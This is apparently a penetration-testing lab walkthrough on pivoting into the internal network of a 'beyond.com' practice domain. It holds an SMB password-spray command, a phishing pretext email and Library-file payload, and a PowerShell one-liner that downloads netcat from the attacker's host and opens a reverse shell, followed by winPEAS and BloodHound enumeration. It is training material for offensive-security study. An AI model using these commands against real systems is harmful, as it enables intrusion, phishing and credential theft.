










---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Pivoting to the Internal Network

The attacker has found all they can on `WEBSRV1` and at this point the path to access to the internal network is limited to two options:

1. Leverage the credentials found on `WEBSRV1` to gain access to `MAILSRV1` (the other public machine)
2. Use some client-side attack (e.g. a phishing email) to gain access

## Leveraging Found Credentials

Starting with the first technique seems logical. Recall the `MAILSRV1` machine is running several services:


```
...
PORT    STATE SERVICE       VERSION
25/tcp  open  smtp          hMailServer smtpd
| smtp-commands: MAILSRV1, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
110/tcp open  pop3          hMailServer pop3d
|_pop3-capabilities: TOP USER UIDL
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp open  imap          hMailServer imapd
|_imap-capabilities: SORT RIGHTS=texkA0001 CHILDREN OK NAMESPACE IMAP4rev1 ACL IMAP4 IDLE completed QUOTA CAPABILITY
445/tcp open  microsoft-ds?
587/tcp open  smtp          hMailServer smtpd
| smtp-commands: MAILSRV1, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
...
```


With this in mind, perhaps some of the credentials found in the last section could be used to access the machine via SMB. The first step is to break the `creds.txt` file into a list of users and passwords which are saved into files called `users.txt` and `passwords.txt` respectively.

Then, as seen in [this example](../windows/active-directory/authentication/attacking-ad-authentication/password-attacks.md#crackmapexec), the attacker can use `crackmapexec` to spray these passwords at mailsrv1 via the following command:


```bash
crackmapexec smb 192.168.X.242 -u users.txt -p passwords.txt --continue-on-success
```


When run there appears to be one set of credentials that worked:

```shell-session
kali@kali:~/beyond$ crackmapexec smb 192.168.225.242 -u users.txt -p passwords.txt --continue-on-success
SMB         192.168.225.242 445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.225.242 445    MAILSRV1         [-] beyond.com\daniela:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.225.242 445    MAILSRV1         [-] beyond.com\daniela:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.225.242 445    MAILSRV1         [-] beyond.com\daniela:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
SMB         192.168.225.242 445    MAILSRV1         [-] beyond.com\wordpress:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.225.242 445    MAILSRV1         [-] beyond.com\wordpress:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.225.242 445    MAILSRV1         [-] beyond.com\wordpress:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
SMB         192.168.225.242 445    MAILSRV1         [-] beyond.com\john:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.225.242 445    MAILSRV1         [-] beyond.com\john:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.225.242 445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL
```

While `john` is a user for `MAILSRV1` he is not an admin. That said it is still worth seeing if anything can be gained from this.

### Enumerating SMB

With john's credentials `crackmapexec` can be used to list the available SMB shares with the `--shares` flag:

```bash
crackmapexec smb 192.168.X.242 -u john -p "dqsTwTpZPn#nL" --shares
```

When run the attacker only finds the default shares:

```shell-session
kali@kali:~/beyond$ crackmapexec smb 192.168.225.242 -u john -p "dqsTwTpZPn#nL" --shares
SMB         192.168.225.242 445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.225.242 445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         192.168.225.242 445    MAILSRV1         [+] Enumerated shares
SMB         192.168.225.242 445    MAILSRV1         Share           Permissions     Remark
SMB         192.168.225.242 445    MAILSRV1         -----           -----------     ------
SMB         192.168.225.242 445    MAILSRV1         ADMIN$                          Remote Admin
SMB         192.168.225.242 445    MAILSRV1         C$                              Default share
SMB         192.168.225.242 445    MAILSRV1         IPC$            READ            Remote IPC
```

The attacker can attempt to find some valuable files on the share but that path seems unlikely. As shown in this article the --spider flag can be used to check for visible files on a share. The command to enumerate the `C$` share is:

```bash
crackmapexec smb 192.168.225.242 -u john -p "dqsTwTpZPn#nL" --spider 'C$' --regex .
```

* `--spider` indicates which share should be explored
* `--regex` allows the user to patch a RegEx for matching. In this case `.` is passed to match all results

Unfortunately this turns up nothing:

```shell-session
kali@kali:~/beyond$ crackmapexec smb 192.168.225.242 -u john -p "dqsTwTpZPn#nL" --spider 'C$' --regex .
SMB         192.168.225.242 445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.225.242 445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         192.168.225.242 445    MAILSRV1         [*] Started spidering
SMB         192.168.225.242 445    MAILSRV1         [*] Spidering .
SMB         192.168.225.242 445    MAILSRV1         [*] Done spidering (Completed in 0.05885910987854004)

```

As `john` is not an admin tools like PsExec are out. That means it is probably time to go phish.

## Phishing for Access

The steps [shown here](../attack-vectors/client-side-attacks/code-execution-via-windows-library-files.md#full-cli-example) will be used to send a phishing email.

First the attacker should create a `mailsrv1/exploit/` directory as well as /http and /webdav subdirectories. The overall plan is to send a phishing email with a malicious attachment as john using the compromised credentials. The attachment will be a Library file that points back to an attacker-hosted WebDAV server. On the WebDAV server is a `.lnk` file that is actually a PowerShell command that will download Netcat and launch a reverse shell using it.

The library file can be created in the exploit directory and will contain:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>1</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
        <folderType>{B3690E58-E961-423B-B687-386EBFD83239}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <isSupported>false</isSupported>
            <simpleLocation>
                <url>http://192.168.45.243</url>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```


The `.lnk` file can be created in the `exploit/` directory but is then copied into `exploit/webdav/`. The command it contains is:


```sh
powershell.exe -w hidden -c "iwr 'http://192.168.45.243:8000/netcat_x64.exe' -OutFile $env:userprofile\nc.exe;&(Join-Path $env:userprofile nc.exe) 192.168.45.243 443 -e powershell"
```


Next the email's content will be written and saved into a file called body.txt in the `exploit/` directory:


```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```


This email gives a reasonable pretext for the potential victims which dramatically increases the likelihood of a successful phish.

Finally a Netcat .`exe` is placed in `exploit/http/`. When the attack is ready the directory structure will look like this:

```
mailsrv1
└── exploit
    ├── automatic_configuration.lnk
    ├── body.txt
    ├── config.Library-ms
    ├── http
    │   └── netcat_x64.exe
    └── webdav
        └── automatic_configuration.lnk
```

### Launching the Attack

At this point the attack is ready to be launched. In the `exploit/http/` directory the attacker will execute the command:


```bash
python3 -m http.server 8000
```


Then in a different terminal, in the `exploit/webdav/` directory, the attacker will launch a WebDAV server with the command:


```bash
wsgidav --host=0.0.0.0 --port=80 --root=. --auth=anonymous
```


Then in another terminal the attacker launches the remote listener:

```bash
rlwrap nc -lvnp 443
```

Then in a final terminal, from the `exploit/` directory, the attacker sends the email:


```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.211.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```


When all is said and done the listener catches the shell and the attacker has code execution on `MAILSRV1`:

```shell-session
kali@kali:~/beyond$ rlwrap nc -lvnp 443 
listening on [any] 443 ...
connect to [192.168.45.243] from (UNKNOWN) [192.168.211.242] 62727
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
beyond\marcus
PS C:\Windows\System32\WindowsPowerShell\v1.0> hostname
hostname
CLIENTWK1
...
```

Perfect. It seems `marcus` checks emails on `CLIENTWK1`, and using that machine he ran the malicious .lnk file thus launching a reverse shell. Presumably this is a machine on the internal network and connected to the domain. Now on to enumeration.

## Enumerating the Pivot

Now that the attacker has access to CLIENTWK1 they must enumerate it to see if it has any useful secrets or if it can serve as a pivot to the internal network.

### Machine Enumeration

#### Interfaces

After determining user and hostname it is worth checking the [network interfaces](../windows/privilege-escalation/enumeration/manual-enumeration.md#interfaces) to see where this machine is connected. The command is:

```
ipconfig /all
```

Once run the attacker finds they are connected to the internal network:

```powershell
PS C:\Users\marcus> ipconfig /all
ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : CLIENTWK1
   Primary Dns Suffix  . . . . . . . : beyond.com
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : beyond.com

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-86-AD-13
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 172.16.167.243(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.167.254
   DNS Servers . . . . . . . . . . . : 172.16.167.240
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

The attacker can now use their reverse shell session to download [winPEAS](../windows/privilege-escalation/enumeration/automated-enumeration.md#winpeas) and use it for enumeration. Once downloaded winPEAS can be run with the command:

```powershell
.\winPEAS.exe > wp_check.txt
```

Once the scan completes the file can be uploaded to the attacker's machine and examined. The first step is checking the operating system info:

```
Basic System Information
Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: CLIENTWK1
    Domain Name: beyond.com
    ProductName: Windows 10 Pro
    EditionID: Professional
```

As was noted earlier, winPEAS can misidentify Windows 11 as Windows 10 Pro so it is worth actually running `systeminfo` to see what the OS is:

```powershell
PS C:\Users\marcus> systeminfo
systeminfo

Host Name:                 CLIENTWK1
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22000 N/A Build 22000
```

AV was detected on the machine:

```
AV Information
    Some AV was detected, search for bypasses
    Name: Windows Defender
    ProductEXE: windowsdefender://
    pathToSignedReportingExe: %ProgramFiles%\Windows Defender\MsMpeng.exe
```

The tool also located some interesting known hosts:

```
Network Ifaces and known hosts
The masks are only for the IPv4 addresses
  
  Ethernet0[00:50:56:BF:FC:36]: 172.16.167.243 / 255.255.255.0
        Gateways: 172.16.167.254
        DNSs: 172.16.167.240
        Known hosts:
          172.16.167.240        00-50-56-BF-35-C4     Dynamic
          172.16.167.254        00-50-56-BF-2D-1B     Dynamic
          ...

DNS cached --limit 70
    Entry                                 Name                                  Data
    dcsrv1.beyond.com                     DCSRV1.beyond.com                     172.16.167.240
    mailsrv1.beyond.com                   mailsrv1.beyond.com                   172.16.167.254
```

Per the DNS cached entries these IP addresses correspond to the domain controller (`172.16.X.254`) and `MAILSRV1`'s internal-facing network interface (`172.16.X.240`).

At this point it is worth creating a `beyond/computers.txt` file which will be used to make notes of machines as they are discovered on the network:


```
172.16.167.240 - DCSRV1.BEYOND.COM
-> Domain Controller

172.16.167.254 - MAILSRV1.BEYOND.COM
-> Mail Server
-> Dual Homed Host (External IP: 192.168.211.242)

172.16.167.243 - CLIENTWK1.BEYOND.COM
-> User _marcus_ fetches emails on this machine
```


### Domain Enumeration

Next, SharpHound will be downloaded to CLIENTWK1 and used to enumerate the domain. The command to launch enumeration will be:

```powershell
SharpHound.exe --CollectionMethods All --OutputPrefix "marcus_mailsrv1"
```

The tool creates a `.zip` that is exported to the attackers machine and examined via BloodHound. Once BloodHound is started and the snapshot uploaded the attacker can begin doing some domain enumeration.

#### Domain Computers

First the attacker will check for domain-connected computers using the [query](../windows/active-directory/enumeration/automated.md#all-users-groups-or-computers):

```
MATCH (c:Computer) RETURN c
```

This reveals 4 machines:

<figure><figcaption><p>Domain-connected machines</p></figcaption></figure>

3 of the 4 were known before but INTERNALSRV1 is new. The attacker can use the following command to obtain its IP:

```sh
nslookup INTERNALSRV1.BEYOND.COM
```

```powershell
PS C:\Users\marcus> nslookup INTERNALSRV1.BEYOND.COM
nslookup INTERNALSRV1.BEYOND.COM
Server:  UnKnown
Address:  172.16.184.240

Name:    INTERNALSRV1.BEYOND.COM
Address:  172.16.184.241
```

This information is then added to `computers.txt`:


```
172.16.167.240 - DCSRV1.BEYOND.COM
-> Domain Controller

172.16.167.241 - INTERNALSRV1.BEYOND.COM

172.16.167.254 - MAILSRV1.BEYOND.COM
-> Mail Server
-> Dual Homed Host (External IP: 192.168.211.242)

172.16.167.243 - CLIENTWK1.BEYOND.COM
-> User _marcus_ fetches emails on this machine
```


#### Domain Users

A similar query can be used to return all users:

```
MATCH (u:User) RETURN u
```

This reveals all of the domain users:

<figure><figcaption><p>Domain users</p></figcaption></figure>

This reveals that there are 4 users other than the default AD user accounts. This information should be updated in the `beyond/users.txt` file containing a list of usernames:


```
BECCY
JOHN
DANIELA
MARCUS
```


While on this screen the attacker can mark the compromised `john` and `marcus` accounts as owned by right clicking on the nodes and selecting `Mark User as Owned`.

#### Domain Groups and GPOs

In a real scenario the attacker would want to also leverage queries to examine all Groups:

```
MATCH (g:Group) RETURN g
```

And all GPOs:

```
MATCH (g:GPO) RETURN g
```

In the interest of brevity these are skipped as they are not useful in this example.

#### Domain Admins

The pre-built query to find all Domain Admins can be used:

<figure><figcaption><p>Domain Admins</p></figcaption></figure>

This reveals that the `beccy` user is a Domain Admin.

#### Additional Queries

The attacker will then attempt to run a series of the pre-built queries:

1. `Find Workstations where Domain Users can RDP`
2. `Find Servers where Domain Users can RDP`
3. `Find Computers where Domain Users are Local Admin`
4. `Shortest Path to Domain Admins from Owned Principals`

Unfortunately all of them turn up nothing in the current environment.

#### User Sessions

The user sessions will be enumerated with the [relationship query](../windows/active-directory/enumeration/automated.md#user-sessions):

```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

When run the attacker finds 3 active sessions in the domain:

<figure><figcaption><p>Current Active Sessions</p></figcaption></figure>

This reveals 3 active sessions. As expected `marcus` is found to have a session on CLIENTWK1. This is where he clicked the phishing email and the attacker has access.

Interestingly, the previously identified domain administrator account `beccy` has an active session on `MAILSRV1`. If the attacker can manage to get privileged access to this machine, they could potentially extract the NTLM hash for this user.

The user of the last active session (second in screenshot just last to be discussed) is displayed as a SID. BloodHound uses this representation of a principal when the domain identifier of the SID is from a local machine. For this session, this means that the local `Administrator` (indicated by RID `500`) has an active session on `INTERNALSRV1`.

#### Kerberoastable Users

The attacker will also use the predefined query to find Kerberoastable Users:

<figure><figcaption><p>Kerberoastable Users</p></figcaption></figure>

This reveals that the users `daniela` and `krbtgt` are Kerberoastable. `krbtgt` is not worth bothering as the hash will likely be uncrackable. But `daniela` could be crackable.

#### Service Principal Names

The attacker may have noticed an SPN attached to the `daniela` user. A [query](../windows/active-directory/enumeration/automated.md#service-principal-names) to check for the presence of SPNs is:

```
MATCH (n:User)WHERE n.hasspn=true RETURN n
```

&#x20;When the Node Info is viewed in BloodHound, `daniela` is found to have the mapped SPN `http/internalsrv1.beyond.com`:

<figure><figcaption><p>SPN for daniela</p></figcaption></figure>

The structure of the SPN indicates that there is an internal web application (`http`) hosted on `INTERNALSRV1`.&#x20;

Also because the user is daniela and the account was determined to be Kerberoastable, perhaps if her password is cracked it can be used to access `INTERNALSRV1`.

While this is interesting it is good policy to not let finding an actionable vector interrupt enumeration. Therefore this information is written down but then enumeration continues.

#### Conclusion

This concludes the domain enumeration from `CLIENTWK1`. The attacker could have used [PowerView](../windows/active-directory/enumeration/manual.md#powerview), [Enumerate-AD](../windows/active-directory/enumeration/manual.md#enumerate-a-d), or [LDAP queries](../windows/active-directory/enumeration/manual.md#powershell) to obtain most of this information. However, in most penetration tests, it is preferable to use BloodHound first as the output of the other methods can be quite overwhelming. It's an effective and powerful tool to gain a deeper understanding of the Active Directory environment in a short amount of time. One can also use raw or pre-built queries to identify highly complex attack vectors and display them in an interactive graphical view.

## Internal Network Enumeration

The next step would be to enumerate the internal network; especially `INTERNALSRV1` which is thought to be hosting a web application. In order to do this the attacker will need to proxy their traffic through CLIENTWK1.

### Establishing a Port Forward

#### Launching Meterpreter

The attacker will use Metasploit to set up a dynamic [port forward](../attack-vectors/exploit-frameworks/metasploit/post-exploitation/pivoting.md). It will leverage the [`autoroute`](../attack-vectors/exploit-frameworks/metasploit/post-exploitation/pivoting.md#autoroute) and [`socks_proxy`](../attack-vectors/exploit-frameworks/metasploit/post-exploitation/pivoting.md#socks-proxy) modules.

